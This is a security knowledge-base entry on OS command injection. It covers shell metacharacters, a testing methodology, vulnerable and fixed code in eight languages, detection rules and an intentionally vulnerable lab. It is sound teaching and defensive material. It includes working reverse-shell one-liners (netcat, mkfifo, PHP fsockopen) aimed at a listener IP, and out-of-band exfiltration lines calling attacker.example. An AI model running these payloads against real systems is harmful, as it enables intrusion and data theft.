

<!--
  Translation bar (added in the translation phase - D1/D10):
  English (this file)

  Writing style: no em dashes in prose. Use commas, colons, parentheses, or
  hyphens. (OWASP IDs keep their official en-dash format.)
-->

# OS Command Injection

`A05:2025 – Injection` · Web Vulnerability Knowledge Base

## Summary

OS command injection (also called shell injection or command injection) happens
when an application builds a **system command out of text you control** and hands
that command to the operating system's shell to run. The application wanted to
run one fixed command with your input as data. The shell, however, does not see
"data": it sees a command line, and it faithfully obeys every special character
in it. So if your input contains a character the shell treats as a separator, you
stop being an argument and start being a **second command** that runs with all
the privileges of the web application.

Picture a web page that lets you check whether a host is online. Behind it, the
code does something like `ping -c 1 <the address you typed>`. Type `8.8.8.8` and
you get a normal ping. Type `8.8.8.8; id` and the shell runs two commands: the
ping, then `id`, and the page cheerfully shows you `uid=0(root)`. That semicolon
is the whole vulnerability. You did not break into anything. You simply spoke the
shell's language in a box that expected a hostname.

This is one of the most dangerous bugs on the web because the payoff is
immediate and total: arbitrary command execution on the server, usually followed
by a reverse shell and full control of the host. This entry teaches the shell
metacharacters that chain commands (`;`, `|`, `&&`, `||`, and friends), gives you
a reference of the binaries you are likely to find on a target and what each one
buys you, walks through building a reverse shell with PHP and with netcat, and
ends with a runnable lab where a "network tools" page runs your input through a
shell. Your job in the lab is to chain a command that reads the flag from
`/root/secret.txt`.

## OWASP Top 10 alignment

- **Category:** `A05:2025 – Injection`
- **Why it maps here:** command injection is the textbook injection flaw.
  Untrusted data (your input) crosses a boundary into an interpreter (the OS
  shell) and is parsed as code (commands and metacharacters) rather than as data
  (a hostname, a filename, an argument). The interpreter runs what you wrote.
- **CWE:** the primary weakness is **CWE-78 (Improper Neutralization of Special
  Elements used in an OS Command)**. A closely related cousin is **CWE-77
  (Command Injection)**, the more general form, and **CWE-88 (Argument
  Injection)**, where you cannot start a new command but you can smuggle extra
  flags into the one that already runs.
- **A note on editions:** injection has been the archetypal web risk for two
  decades. It sat at `A1` in the 2013 and 2017 OWASP Top 10, moved to `A03:2021`,
  and is `A05:2025` in the edition this KB tracks. The ranking moved; the danger
  did not.

## Where you find it, and where to look

Command injection lives wherever an application shells out to a system tool
instead of using a native library. That habit is common in exactly the places
you would expect: features that wrap a command-line utility.

Hunt for it in:

- **Network and diagnostic tools:** "ping this host", "traceroute", "nslookup /
  dig", "whois", "check if this port is open", "test this URL" (often a `curl` or
  `wget` under the hood). Admin panels and router / IoT / NAS web UIs are full of
  these, and embedded devices are notorious offenders.
- **File and media processing:** anything that calls `ImageMagick` (`convert`),
  `ffmpeg`, `ghostscript`, `pdftk`, `libreoffice`, `tar`, `zip`, or
  `exiftool` on an uploaded file or a filename you supply. Thumbnailing and
  "convert my document" endpoints are prime targets.
- **Backup, export, and reporting features:** "download a backup" (a `mysqldump`
  or `tar` call), "export to PDF" (a headless browser or `wkhtmltopdf`), "run
  report" jobs that assemble a shell pipeline.
- **DNS / hostname / IP / email fields** that get passed to a lookup tool, and
  **git / package operations** ("clone this repo", "install this package") that
  build a command string.
- **Anything that takes a filename, path, URL, or "options" string** and later
  appears on a command line. Filenames are a favourite because developers forget
  a filename can contain `;` or `$(...)`.

In source code, the signal is a call to a shell-invoking API with a
**string built by concatenation or interpolation**: `os.system`,
`subprocess.*(..., shell=True)`, `popen`, backticks, `Runtime.exec` with
`/bin/sh -c`, PHP `system` / `exec` / `shell_exec` / `passthru`, Ruby's backticks
or `system`, Node's `child_process.exec`. The moment user input reaches one of
those without strict validation, you likely have command injection.

## Chaining commands: the shell metacharacters

The shell is a small programming language, and its operators are what let you run
more than one command on a line. Understanding them is the core skill for both
exploiting and recognising command injection. Below, `A` is the command the
application intended to run (for example `ping -c 1 8.8.8.8`) and `B` is the
command you are trying to sneak in (for example `id`).

| Operator | Name | Behaviour | Runs `B` when... | Example payload |
|---|---|---|---|---|
| `;` | sequence | run `A`, then run `B`, regardless of outcome | always | `8.8.8.8; id` |
| `\|` | pipe | send `A`'s **output** into `B`'s input; `B` always runs | always | `8.8.8.8 \| id` |
| `&&` | AND / on-success | run `B` only if `A` **succeeded** (exit code 0) | `A` succeeds | `8.8.8.8 && id` |
| `\|\|` | OR / on-failure | run `B` only if `A` **failed** (non-zero exit) | `A` fails | `; \|\| id` or `bad-host \|\| id` |
| `&` | background | run `A` in the background, return immediately, then run `B` | always | `8.8.8.8 & id` |
| `$( )` | command substitution | run the inner command, splice its **output** into the line | always | `ping -c1 $(id)` |
| `` ` ` `` | backtick substitution | older form of `$( )`, same idea | always | `` ping -c1 `id` `` |
| newline (`%0a`) | line break | a literal newline ends one command and starts the next | always | `8.8.8.8%0aid` |

A few practical notes that trip people up:

- **`;` versus `|`.** A semicolon is the simplest: it just says "and then run
  this too". A pipe is subtly different because it connects `A`'s standard output
  to `B`'s standard input. `B` still runs even if `A` printed nothing, which is
  why `| id` works fine, but a pipe is also handy when you want to feed data
  along (`... | base64`, `... | tr`, `... | while read ...`).
- **`&&` and `||` are conditionals.** Use `&&` when the intended command
  succeeds and you want yours to run after it. Use `||` when you can make the
  intended command **fail** (give it a bad hostname) so that your command runs as
  the "fallback". `||` is the quiet workhorse in blind cases.
- **Substitution runs first and runs inline.** `$( )` and backticks execute
  their contents before the outer command and paste the result into the command
  line. That makes them ideal for **blind** injection: put the output somewhere
  it can leak, for example `ping -c1 $(whoami).attacker.example` sends the
  username to you as a DNS lookup.
- **Encoding matters over HTTP.** In a URL, `;` may need to be sent as `%3b`,
  a space as `%20` (or `+`), an ampersand as `%26`, and a newline as `%0a`. If a
  raw payload does not work, try URL-encoding the metacharacters; if the input is
  reflected into JSON or XML first, mind that layer's escaping too.
- **Quote breakouts.** If your input lands **inside quotes** on the command line
  (`ping -c1 "<you>"`), close the quote first: `"; id; "` or `" && id && "`. If
  it lands inside single quotes, close with `'`. Argument injection (below) is
  the case where you cannot break out at all but can still add flags.

## What might be on the target: binaries and their capabilities

Once you have execution, the next question is "what can I actually run here?"
Different systems ship different tools, and part of the craft is enumerating
what is present and picking the right one for the job (read a file, pull a
tool, open a shell, exfiltrate data). The table below lists binaries you will
commonly meet, on Linux and on Windows, with what each one gives you in an
injection context. Check availability with `which <tool>` / `command -v <tool>`
on Linux or `where <tool>` on Windows.

| Capability | Linux | Windows | Why it matters in an injection |
|---|---|---|---|
| Who am I / context | `id`, `whoami`, `uname -a`, `hostname` | `whoami`, `hostname`, `ver`, `systeminfo` | first thing to run: confirms execution and your privilege level |
| Read a file | `cat`, `less`, `head`, `tail`, `od` | `type`, `more` | read config, secrets, the flag (`cat /root/secret.txt`) |
| List / find files | `ls`, `find`, `locate` | `dir`, `where`, `tree` | locate secrets, keys, writable spots |
| Environment / creds | `env`, `printenv`, `cat /etc/passwd` | `set`, `whoami /priv` | env vars often hold DB passwords and API keys |
| Shell to run chains | `sh`, `bash`, `dash`, `zsh` | `cmd`, `powershell`, `pwsh` | `bash -c '...'` and `powershell -c '...'` run richer payloads |
| Network client / download | `curl`, `wget`, `nc`/`ncat`, `ftp` | `certutil -urlcache -f`, `curl`, `bitsadmin`, `powershell iwr` | pull a second-stage tool or a reverse-shell script |
| Reverse shell primitives | `nc`, `bash`, `python`/`python3`, `perl`, `php`, `ruby`, `socat`, `mkfifo` | `powershell`, `nc.exe` if present | open a shell back to your listener (see next section) |
| Scripting engine | `python3`, `perl`, `ruby`, `php`, `awk` | `powershell`, `cscript`, `mshta` | when a metacharacter is filtered, a scripting one-liner often is not |
| Encode / obfuscate | `base64`, `xxd`, `printf`, `echo -e` | `certutil -encode/-decode`, PowerShell `[Convert]` | smuggle payloads past naive filters; decode on target |
| Exfil / out-of-band | `nslookup`, `dig`, `ping`, `curl` | `nslookup`, `ping`, `curl` | leak command output via DNS/HTTP/ICMP when nothing is reflected (blind) |
| Persistence / pivot | `crontab`, `ssh`, `at`, `ssh-keygen` | `schtasks`, `sc`, `reg` | keep access or move laterally after the initial foothold |

Two habits worth forming:

1. **Enumerate before you fire.** `which python3 perl nc socat` (Linux) or
   `where powershell nc.exe curl.exe` (Windows) tells you which reverse-shell
   recipe will work before you waste attempts.
2. **Prefer what is already there ("living off the land").** Using stock,
   trusted binaries draws less attention than dropping new tools, and it sidesteps
   controls that block unknown downloads.

## Building a reverse shell

Reading a file is enough to grab a flag, but the real objective of command
injection is usually an **interactive shell**. A reverse shell makes the
**target connect back to you**, which sails through outbound-friendly firewalls
that would block an inbound connection. The pattern is always the same two parts:

1. **On your machine, start a listener** that waits for the incoming connection:
   ```bash
   nc -lvnp 4444
   #  -l listen, -v verbose, -n no DNS, -p 4444 port
   ```
2. **On the target (via the injection), run a command that connects to you** and
   wires a shell to that connection. Replace `10.10.14.7` with your listener's IP
   and `4444` with your port.

### Netcat reverse shell

If a netcat is present, it is the shortest path. Which recipe works depends on
the netcat build:

```bash
# Modern nc that supports -e (runs a program on connect):
nc 10.10.14.7 4444 -e /bin/bash

# ncat (from nmap) with its explicit exec flag:
ncat 10.10.14.7 4444 -e /bin/bash

# Portable "mkfifo" trick for a netcat WITHOUT -e (the common case):
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.7 4444 > /tmp/f
```

The mkfifo version is the one to memorise: most Linux netcats are the
`-e`-less "traditional" build, and this recipe uses a named pipe to feed the
socket's input back into an interactive bash and push bash's output out over the
connection. Delivered through an injection point, it looks like:

```
8.8.8.8; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.7 4444 > /tmp/f
```

### PHP reverse shell

When the target runs PHP (very common: it is a PHP app, or PHP is just installed)
you do not need netcat at all. PHP can open the socket itself. As a one-liner
delivered through the injection:

```bash
php -r '$s=fsockopen("10.10.14.7",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

What it does, line by line: `fsockopen` opens a TCP connection back to your
listener (it becomes file descriptor 3), and `exec` launches an interactive
`/bin/sh` with its input (`<&3`), output (`>&3`), and errors (`2>&3`) all wired
to that socket. Some hardened builds disable `exec`; a self-contained fallback
that only needs `fsockopen` and the streams is the classic PHP reverse shell
script:

```php
<?php
// Minimal PHP reverse shell. Host it, or drop it where the app will execute it.
$ip = "10.10.14.7"; $port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

Deliver the one-liner form through an injection like any other command:

```
8.8.8.8; php -r '$s=fsockopen("10.10.14.7",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### After you catch it

The first shell is usually "dumb" (no arrow keys, no tab completion, Ctrl-C
kills it). Upgrade it to a proper TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# then, for a fully interactive shell: background with Ctrl-Z, run
#   stty raw -echo; fg
# on your own machine, and press Enter.
```

A quick note on lawful use: reverse shells are for systems you own or are
explicitly authorised to test. Everything here is for the lab and for engagements
with written permission.

## Testing for command injection

A disciplined methodology, from the safest signal to full proof:

1. **Map the inputs that could shell out.** Any field that looks like it feeds a
   system tool (host, IP, URL, filename, "options"). Note reflected output: does
   the page show you the command's result? That tells you whether you will be
   in-band or blind.
2. **Try a benign separator and watch for a second command's output.** Append
   `; id`, `| id`, `&& id`, or `$(id)` and look for `uid=...` in the response.
   If it appears, you have in-band command injection.
3. **If nothing is reflected, go blind with a time delay.** A command that
   pauses proves execution even when you see no output:
   `; sleep 5`, `&& sleep 5`, `| sleep 5`, or `$(sleep 5)`. If the response
   consistently takes about five seconds longer, the command ran. On Windows use
   `ping -n 6 127.0.0.1` (each ping is roughly one second).
4. **Confirm blind with out-of-band interaction.** Make the target reach you:
   `; nslookup me.attacker.example` or `; curl http://attacker.example/$(whoami)`.
   A DNS or HTTP hit on infrastructure you control is undeniable proof and can
   also **exfiltrate** command output (put it in the subdomain or path).
5. **Handle quoting and filters.** If your input lands inside quotes, break out
   first (`"; id; "`). If a character is blocked, try an equivalent: newline
   (`%0a`) instead of `;`, `${IFS}` instead of spaces, backticks instead of
   `$()`, a scripting one-liner instead of the blocked binary.
6. **Escalate to a shell, carefully.** Once execution is proven, move to a
   reverse shell (above). Do this only in a lab or an authorised test.

## Attack path



1. The attacker finds an endpoint that runs a system command with user input
   (here, the WildTools "Ping a host" feature, which calls `ping -c 1 <host>`
   through a shell).
2. They confirm execution by appending a separator and a probe:
   `127.0.0.1; id`, and see `uid=...` in the output.
3. They chain the real objective. Because the app runs the command as **root**,
   `127.0.0.1; cat /root/secret.txt` reads a file the web user should never be
   able to touch.
4. The shell runs both commands in sequence and the page prints the second
   command's output, leaking the flag.
5. From the same foothold the attacker upgrades to a **reverse shell** (PHP or
   netcat) and takes interactive control of the host, then pivots.

## The command-injection variant map

The same flaw shows up in a few flavours; which one you have decides your
technique.

### 1. In-band (results-based)

The command's output comes back in the HTTP response. The easiest case: append
`; id` and read the result. This is what the lab uses. Exfiltration is trivial
because you can simply `cat` files and see them.

### 2. Blind (no output reflected)

The command runs but you never see its output. Prove it two ways:

- **Time-based:** `; sleep 10` (Linux) or `& ping -n 11 127.0.0.1` (Windows).
  A reliable delay equals execution.
- **Out-of-band (OOB):** make the server contact you and smuggle data in the
  request. `; curl http://attacker.example/$(whoami)` or
  `; nslookup $(whoami).attacker.example`. Your logs receive the output. DNS is
  especially useful because it often escapes egress filtering.

### 3. Argument (parameter) injection

You cannot start a new command, but your input is placed as an **argument** to
the existing one, and you can inject **extra flags**. Classic examples:
turning a `curl <url>` into a file write with `-o`, abusing `tar`'s
`--checkpoint-action=exec=...`, or feeding `find ... -exec`. This is CWE-88 and
matters because "no metacharacter reached the shell" does not mean you are safe.

### 4. Second-order / stored

Your input is stored now (a filename, a profile field) and shelled out later by
a different job (a cron backup, a batch converter). The injection fires away from
the request that planted it, which makes it easy to miss and hard to trace.

## Vulnerable & fixed code

> Every block shows the same idea. **Vulnerable** builds a command string out of
> user input and hands it to a **shell**, so metacharacters like `;` and `|` are
> interpreted. **Fixed** never invokes a shell: it passes the program and its
> arguments as a **list / array**, so the OS runs exactly one program and treats
> your input as a single, inert argument. The one durable rule is: *do not build
> shell command lines from untrusted input.* Call the program directly with an
> argument vector, and where you can, avoid shelling out at all by using a native
> library (resolve a hostname in code instead of calling `ping`).

<details open><summary><b>Python</b></summary>

**Vulnerable**
```python
import os, subprocess

# VULNERABLE: the input is concatenated into a string run BY THE SHELL.
host = request.args["host"]
os.system("ping -c 1 " + host)                 # ; | && all interpreted
subprocess.run(f"ping -c 1 {host}", shell=True)  # same flaw with subprocess
```
**Fixed**
```python
import subprocess

# FIXED: no shell. Pass an argument list; host is one inert argument.
host = request.args["host"]
subprocess.run(["ping", "-c", "1", host], shell=False, timeout=5)
# Validate too: accept only a hostname/IP shape before you even run it.
```
Docs: https://docs.python.org/3/library/subprocess.html#security-considerations
</details>

<details><summary><b>Java</b></summary>

**Vulnerable**
```java
// VULNERABLE: invoking a shell with a concatenated string
String host = req.getParameter("host");
Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", "ping -c 1 " + host});
```
**Fixed**
```java
// FIXED: ProcessBuilder with a fixed argument list, no shell
String host = req.getParameter("host");
ProcessBuilder pb = new ProcessBuilder("ping", "-c", "1", host);
pb.redirectErrorStream(true);
Process p = pb.start();
```
Docs: https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html
</details>

<details><summary><b>JavaScript</b></summary>

**Vulnerable**
```javascript
// VULNERABLE: child_process.exec runs the string in a shell
const { exec } = require("child_process");
exec("ping -c 1 " + req.query.host, (err, stdout) => res.send(stdout));
```
**Fixed**
```javascript
// FIXED: execFile / spawn with an args array, shell disabled
const { execFile } = require("child_process");
execFile("ping", ["-c", "1", req.query.host], { timeout: 5000 },
         (err, stdout) => res.send(stdout));
```
Docs: https://nodejs.org/api/child_process.html#child_processexecfilefile-args-options-callback
</details>

<details><summary><b>TypeScript</b></summary>

**Vulnerable**
```typescript
// VULNERABLE: same Node flaw; types do not stop shell interpretation
import { exec } from "child_process";
exec(`ping -c 1 ${req.query.host}`, (err, stdout) => res.send(stdout));
```
**Fixed**
```typescript
// FIXED: execFile with an argument array, no shell
import { execFile } from "child_process";
execFile("ping", ["-c", "1", String(req.query.host)], { timeout: 5000 },
         (err, stdout) => res.send(stdout));
```
Docs: https://nodejs.org/api/child_process.html
</details>

<details><summary><b>PHP</b></summary>

**Vulnerable**
```php
<?php
// VULNERABLE: system/exec/shell_exec/passthru all run a shell command string
$host = $_GET["host"];
system("ping -c 1 " . $host);      // ; cat /root/secret.txt gets run too
```
**Fixed**
```php
<?php
// FIXED: build an argv and run without a shell via proc_open; escape as backup
$host = $_GET["host"];
if (!filter_var($host, FILTER_VALIDATE_IP) &&
    !preg_match('/^[a-zA-Z0-9.-]+$/', $host)) {
    http_response_code(400); exit("invalid host");
}
$cmd = ["ping", "-c", "1", $host];     // array form, no shell parsing
$p = proc_open($cmd, [1 => ["pipe","w"]], $pipes);
```
Docs: https://www.php.net/manual/en/function.escapeshellarg.php
</details>

<details><summary><b>Ruby</b></summary>

**Vulnerable**
```ruby
# VULNERABLE: backticks and the string form of system use a shell
host = params[:host]
output = `ping -c 1 #{host}`          # interpolation into a shell string
system("ping -c 1 #{host}")
```
**Fixed**
```ruby
# FIXED: the multi-argument form runs the program directly, no shell
host = params[:host]
output = IO.popen(["ping", "-c", "1", host]) { |io| io.read }
# system("ping", "-c", "1", host) is also shell-free
```
Docs: https://docs.ruby-lang.org/en/master/Kernel.html#method-i-system
</details>

<details><summary><b>Go</b></summary>

**Vulnerable**
```go
// VULNERABLE: only dangerous because it explicitly calls a shell with -c
host := r.URL.Query().Get("host")
out, _ := exec.Command("sh", "-c", "ping -c 1 "+host).CombinedOutput()
```
**Fixed**
```go
// FIXED: exec.Command with separate args does NOT use a shell
host := r.URL.Query().Get("host")
out, err := exec.Command("ping", "-c", "1", host).CombinedOutput()
_ = err
// Go's exec.Command never invokes a shell unless you name one; keep it that way.
```
Docs: https://pkg.go.dev/os/exec#Command
</details>

<details><summary><b>C#</b></summary>

**Vulnerable**
```csharp
// VULNERABLE: routing the command through cmd.exe /c with a built string
var host = Request.Query["host"];
Process.Start("cmd.exe", "/c ping -n 1 " + host);
```
**Fixed**
```csharp
// FIXED: run the program directly, arguments as a list, no shell
var host = Request.Query["host"].ToString();
var psi = new ProcessStartInfo("ping") { UseShellExecute = false };
psi.ArgumentList.Add("-n"); psi.ArgumentList.Add("1"); psi.ArgumentList.Add(host);
Process.Start(psi);
```
Docs: https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.argumentlist
</details>

## Detection signatures

- **Input markers in traffic and logs:** shell metacharacters in parameters that
  feed system tools: `;`, `|`, `&`, `&&`, `||`, `` ` ``, `$(`, `${IFS}`, a raw
  newline (`%0a`), or the names of common recon commands (`id`, `whoami`,
  `uname`, `cat /etc/passwd`) inside a `host` / `ip` / `file` / `cmd` field.
- **Suspicious response content:** a field or page that echoes `uid=0(root)`,
  the contents of `/etc/passwd` (`root:x:0:0:`), or `ping`/`nslookup` output that
  does not match the requested host is a confirmed execution.
- **Out-of-band signals:** DNS or HTTP callbacks to unfamiliar hosts originating
  from the app server right after a request with metacharacters, or ICMP to
  external IPs, indicate blind command injection or OOB exfiltration.
- **Timing anomalies:** requests that consistently take about N extra seconds
  when the payload contains `sleep N` / `ping -n N` point at time-based blind
  injection.
- **Process-tree anomalies (host / EDR):** the web server process
  (`nginx`, `php-fpm`, `node`, `python`) spawning a shell (`sh`, `bash`, `cmd`,
  `powershell`) or unexpected children (`nc`, `curl`, `wget`, `whoami`) is a
  strong signal. Web servers should rarely fork shells.
- **SAST patterns:** any shell-invoking sink fed a concatenated or interpolated
  string: `os.system`, `subprocess(..., shell=True)`, `exec`/`execSync` with a
  template literal (Node), `Runtime.exec("/bin/sh","-c",...)`, PHP
  `system`/`exec`/`shell_exec`/`passthru`, Ruby backticks, `exec.Command("sh",
  "-c", ...)` (Go), `Process.Start("cmd.exe","/c "+...)` (.NET).
- **Illustrative SIEM query (Splunk-style)** - metacharacters in request params:
  ```
  index=web sourcetype=access_combined
  | regex uri_query="(?i)(%3b|;|%7c|\||&&|\$\(|`|%0a|\bwhoami\b|\bid\b|/etc/passwd)"
  | stats count values(uri_path) BY src_ip
  | where count > 3
  ```

## Remediation checklist

- [ ] **Do not call a shell.** Prefer a language API that takes the program and
  its arguments as a **list / array** (`subprocess.run([...], shell=False)`,
  `ProcessBuilder`, `execFile`, `exec.Command(prog, args...)`). No shell means no
  metacharacter parsing, which removes the whole class.
- [ ] **Better still, do not shell out at all.** Use a native library for the
  job: resolve DNS in code, use an image library instead of calling `convert`,
  use an HTTP client instead of `curl`. The safest command is the one you never
  run.
- [ ] **Validate with an allowlist.** Where you must accept a value, constrain it
  to exactly the shape you need (an IP address, a hostname matching a strict
  regex, a filename from a fixed set). Reject everything else. Denylisting
  characters is fragile and repeatedly bypassed.
- [ ] **If you truly cannot avoid a shell, escape correctly.** Use the platform's
  argument-escaping helper (`shlex.quote`, `escapeshellarg`) on every argument,
  and understand it is a last resort, not the first line of defence.
- [ ] **Run with least privilege.** The web process should not be root. A
  successful injection then inherits a low-privilege account, limiting the blast
  radius (in the lab, root is used on purpose so the flag is reachable; real
  deployments must not).
- [ ] **Constrain the runtime.** Drop capabilities, use seccomp / AppArmor /
  SELinux, run in a minimal container without a shell or extra binaries, and set
  timeouts so a hung or malicious command cannot run forever.
- [ ] **Restrict egress.** Block or tightly control outbound connections from
  application servers so a blind injection cannot fetch a second stage or open a
  reverse shell.
- [ ] **Log and alert on shell spawns** from web processes, and on the OOB /
  timing signals above.

## References

- OWASP - Command Injection: https://owasp.org/www-community/attacks/Command_Injection
- OWASP Cheat Sheet - OS Command Injection Defense: https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html
- OWASP Web Security Testing Guide - Testing for Command Injection: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection
- PortSwigger Web Security Academy - OS command injection: https://portswigger.net/web-security/os-command-injection
- MITRE - CWE-78 (Improper Neutralization of Special Elements used in an OS Command): https://cwe.mitre.org/data/definitions/78.html
- MITRE - CWE-88 (Argument Injection): https://cwe.mitre.org/data/definitions/88.html
- PayloadsAllTheThings - Command Injection: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

## Lab

A runnable, intentionally vulnerable app lives in [`lab/`](lab/). "WildTools" is
a small network-tools page whose **Ping a host** feature builds a shell command
(`ping -c 1 <host>`) out of the value you type and runs it through `/bin/sh`.

```bash
cd lab
docker compose up --build      # build once (needs network), then runs offline
# open http://127.0.0.1:8000
```

**Goal:** recover the **MD5 flag** stored in `/root/secret.txt`, a file the web
user should never be able to read. Because the app shells out (and runs as root
in the container, on purpose), you read it by **chaining a command**:

1. Confirm execution: submit `127.0.0.1; id` and look for `uid=0(root)` in the
   output.
2. Chain the objective with a separator: `127.0.0.1; cat /root/secret.txt`
   (a semicolon), or `127.0.0.1 | cat /root/secret.txt` (a pipe), or make the
   ping fail and use the fallback `nohost || cat /root/secret.txt`.
3. Read the 32-char flag from the output and submit it. It rotates on every
   restart.

As a bonus, the writeup's reverse-shell recipes work against this lab too: start
`nc -lvnp 4444` on your host and chain a PHP or netcat reverse shell to catch an
interactive root shell inside the container. The single input box takes the raw
host value so you can edit the metacharacters directly, exactly as you would when
tampering with a real diagnostic endpoint.
